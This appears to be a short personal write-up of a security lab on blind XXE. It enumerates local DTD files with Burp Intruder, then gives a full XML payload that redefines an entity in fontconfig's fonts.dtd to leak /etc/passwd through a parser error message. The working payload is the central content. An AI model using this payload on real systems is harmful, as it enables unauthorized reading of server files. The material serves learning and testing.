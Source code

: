     This will import the Yelp DTD, then redefine the `ISOamso` entity, triggering an error message containing the contents of the `/etc/passwd` file.

Analysis:
- we will use a normal out of band xxe injection to observe the error recieved
	![[Pasted image 20240930193712.png]]

- afterwards we will inject an inexistent entity for the same reasons
	![[Pasted image 20240930193726.png]]

- using a dtd enumeration list(https://github.com/GoSecure/dtd-finder/blob/master/list/dtd_files.txt) we will use Burp intruder to inject:
	![[Pasted image 20240930193909.png]]

- we have discovered following path: `/usr/share/xml/fontconfig/fonts.dtd`
	![[Pasted image 20240930194015.png]]

- Payload:
	  ![[Pasted image 20240930194309.png]]

```markup
<!DOCTYPE message [
    <!ENTITY % nbyte SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %nbyte;
]>
<message></message>
```

- now, the contents of the desired file will be displayed via the error message displayed
	![[Pasted image 20240930194637.png]]

